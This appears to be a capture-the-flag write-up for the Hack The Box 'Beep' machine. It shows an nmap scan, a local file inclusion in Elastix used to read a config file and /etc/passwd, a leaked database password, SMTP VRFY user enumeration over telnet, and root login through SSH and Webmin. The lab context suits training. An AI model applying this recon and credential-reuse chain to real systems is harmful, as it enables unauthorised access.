## --------------->> Beep <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.7 -p-
------

    Nmap scan report for 10.10.10.7
    Host is up (0.38s latency).
    Not shown: 65519 closed ports
    PORT      STATE SERVICE    VERSION
    22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
    |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
    25/tcp    open  smtp       Postfix smtpd
    |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
    80/tcp    open  http       Apache httpd 2.2.3
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_http-title: Did not follow redirect to https://10.10.10.7/
    110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_pop3-capabilities: EXPIRE(NEVER) TOP APOP AUTH-RESP-CODE UIDL IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES LOGIN-DELAY(0) PIPELINING STLS
    111/tcp   open  rpcbind    2 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2            111/tcp   rpcbind
    |   100000  2            111/udp   rpcbind
    |   100024  1            875/udp   status
    |_  100024  1            878/tcp   status
    143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
    |_imap-capabilities: Completed LISTEXT OK SORT CHILDREN MAILBOX-REFERRALS ACL ID NO URLAUTHA0001 X-NETSCAPE IDLE ATOMIC LIST-SUBSCRIBED RIGHTS=kxte IMAP4rev1 CATENATE QUOTA CONDSTORE UIDPLUS ANNOTATEMORE MULTIAPPEND THREAD=ORDEREDSUBJECT LITERAL+ NAMESPACE SORT=MODSEQ THREAD=REFERENCES BINARY STARTTLS UNSELECT IMAP4 RENAME
    443/tcp   open  ssl/https?
    | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
    | Not valid before: 2017-04-07T08:22:08
    |_Not valid after:  2018-04-07T08:22:08
    |_ssl-date: 2021-08-14T15:03:44+00:00; -1s from scanner time.
    878/tcp   open  status     1 (RPC #100024)
    993/tcp   open  ssl/imap   Cyrus imapd
    |_imap-capabilities: CAPABILITY
    995/tcp   open  pop3       Cyrus pop3d
    3306/tcp  open  mysql      MySQL (unauthorized)
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
    4445/tcp  open  upnotifyp?
    4559/tcp  open  hylafax    HylaFAX 4.3.10
    5038/tcp  open  asterisk   Asterisk Call Manager 1.1
    10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
    |_http-server-header: MiniServ/1.570
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

    Host script results:
    |_clock-skew: -1s

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1631.55 seconds

// Navigating to http://10.10.10.7/ redirect us to HTTPS(port 443) https://10.10.10.7/ , its a login page of elastix(private branch exchange software)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/1.png)

// Also we got another login page on port 10000 for webmin service (we will save that for later)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/2.png)

// Searching for exploit to elastix service in [ExploitDB](https://www.exploit-db.com/) found me a 'Local file inclusion vulnerability'

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/4.png)

// Looking at the vulnerabillity help to understand the picture

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/5.png)

// Lets try that !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/3.png)

// It worked !, since the exploit suggested a config file for the PBX, we have got some potential passwords

    # AMPDBPASS=amp109
    AMPDBPASS=jEhdIekWmdjE
    AMPENGINE=asterisk
    #AMPMGRPASS=amp111

// Lets try to get passwd file

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/6.png)

// Also worked !, So we got users 

    sync
    shutdown
    halt
    news
    mysql
    cyrus
    asterisk
    spamfilter
    fanis

// Lets save them to a file and since we got SMTP service running

// we can try to connect this service with telnet and verify the user we got

    $ telnet 10.10.10.7 25
------

    Trying 10.10.10.7...
    Connected to 10.10.10.7.
    Escape character is '^]'.

// command 'EHLO' with anything just shows options

    EHLO W0lfysec
    250-beep.localdomain
    250-PIPELINING
    250-SIZE 10240000
    250-VRFY
    250-ETRN
    250-ENHANCEDSTATUSCODES
    250-8BITMIME
    250 DSN

// command 'VRFY' will verify if user mail exist (status: 550-NOT exist, 252-Exist)

    VRFY W0lfysec@localhost
    550 5.1.1 <r4r3@localhost>: Recipient address rejected: User unknown in local recipient table
    VRFY halt@localhost
    252 2.0.0 halt@localhost
    VRFY fanis
    252 2.0.0 fanis

// Since we got verify users and we got some passes and SSH service open

// we could try to connect to machine(credential root:jEhdIekWmdjE worked!) but it seems to easy

// Let go back to the webmin login page at https://10.10.10.7:10000/ and try to login as root : jEhdIekWmdjE

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/7.png)

// Searching the app a little bit i foud a command shell option at others option

// since we loged in as root we can get the flags !

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Beep/8.png)
